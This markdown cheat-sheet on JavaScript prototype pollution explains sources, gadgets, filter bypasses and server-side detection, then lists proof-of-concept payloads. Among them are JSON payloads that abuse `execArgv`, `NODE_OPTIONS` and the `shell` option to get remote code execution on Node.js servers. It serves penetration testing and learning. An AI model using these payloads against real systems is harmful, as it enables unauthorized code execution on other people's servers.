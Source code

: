 # Prototype Pollution
So you know about object oriented programming with inheritance and stuff right. Now this in javascript. The parent object is called the prototype, and can be accessed by `foo.__proto__`. If an object does not inherit specifically from another object, the prototype is defaulted to `Object.prototype`. So if you can inject a property to this default prototype, all other objects (with this prototype) will inherit the property.

Prototype pollution relies on three things
- A source to inject arbitrary properties
- A gadget that uses an `Object.prototype` property somewhere in the code
- A sink like `eval()` or `.innerHTML` that allows for code execution

## Client-Side

### Source
Steps to search for client-side prototype pollution sources.
1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example `vulnerable-website.com/?__proto__[foo]=bar`.
2. In the browser console, inspect `Object.prototype` to see if it is successfully polluted.
3. Try using different techniques, or different notation. For example `vulnerable-website.com/?__proto__.foo=bar`.
4. Repeat this for every potential source.

Just use [DOM Invader](../burp/dom_invader.md), which is preinstalled in Burps browser. It automatically tests for prototype pollution soources when you browse.

### Gadget
> I was going to write a step by step instruction on how to find prototype pollution gadgets here. But then I saw that [DOM Invader](../burp/dom_invader.md) can also do this automatically. This saves a lot of time. If you still want to read how to do it manually, this is the [link](https://portswigger.net/web-security/learning-paths/prototype-pollution/client-side-prototype-pollution/prototype-pollution/client-side/finding-client-side-prototype-pollution-gadgets-manually).

### Via Constructor
Instead of using `someObject.__proto__` you can use `someObject.constructor.prototype`, these two essentially return the same prototype. This can be used when "\_\_proto__" is stripped from user input or something. If "\_\_proto__" is stripped, but not recursively, you can also try to use `__pro__proto__to__` as the key.

### Browser API
If the client side code uses `fetch()` in an unsafe way, and prototype pollution is possible. It might be possible to inject malicious headers or a malicious body. With `Object.prototype.headers.someheader=somevalue` or `Object.prototype.body=somevalue`.

If developers have tried to block prototype pollution with `Object.defineProperty(vulnobj, 'prop', {configurable: false, writable: false})`, but no value is set for the property, pollution might still be possible since this function takes a `value` property to set the property to. So just pollute the `Object.prototype.value`, but tbh this is really low hanging fruit that is just stupid.

## Server-Side
Nowadays, javascript is also widely used on the server-side of applications. This allows for this vulnerability to also happen on the server. But searching for server-side prototype pollution is way harder than client-side. Since you have no source code, no devtools, and every change persists until the whole server resets.

### Reflection
Luckily, for-loops that iterate over properties of an object, or over items in an array, also loop over inherited properties. This may result in reflection of a polluted prototype property. 

### No Reflection
When you don't get properties reflected back. Life sucks. You can try injecting certain configuration options of the server. This might change its behaviour without crashing the whole thing. These are some good examples:
- Status code override
> NodeJS' create error function uses this line `status = err.status || err.statusCode || status` to get the statuscode for the embedded json in the response body. Try injecting a number 400-599 in the `status` property.
- JSON spaces override
> The Express framework (vulnerable < 4.17.4) has a `json spaces` option. Try polluting it, and request any json from the server.
- Charset override
> Express servers often implement so-called "middleware" modules that enable preprocessing of requests before they're passed to the appropriate handler function. If you can pollute the `content-type` property with `application/json; charset=utf-7`, an UTF-7 encoded string "+AGYAbwBv-" will be reflected as "foo".

### BApp
Just use the Burp Suite BApp, is way easier. [Server-Side Prototype Pollution Scanner](../burp/ss_protopoll_scan.md).

## Exploit
Here are some proof of concepts to get remote code execution on NodeJS servers.

# Proof Of Concepts


### URL Query
```url
/?__proto__[foo]=bar
```
```url
/?__proto__.foo=bar
```

### URL Fragment
```url
/#__proto__[foo]=bar
```
```url
/#__proto__.foo=bar
```

### Constructor
Instead of `__proto__` kinda.

```
constructor[prototype][foo]=bar
```
```
constructor.prototype.foo=bar
```

### JSON Format
```json
"__proto__": {
    "foo":"bar"
}
```

### RCE
```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=OAST.tocheckifworks.com"
}
```
```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').exec('shellcode here')"
    ]
}
```

If the application already executes its own `child_process.execSync()` or `child_process.exec()`, you can try injecting options that may be left undefined:
```json
"__proto__": {
    "shell":"vim",
    "input":":! <command>\n"
}
```

# Sources
- Main info (Portswigger): https://portswigger.net/web-security/learning-paths/prototype-pollution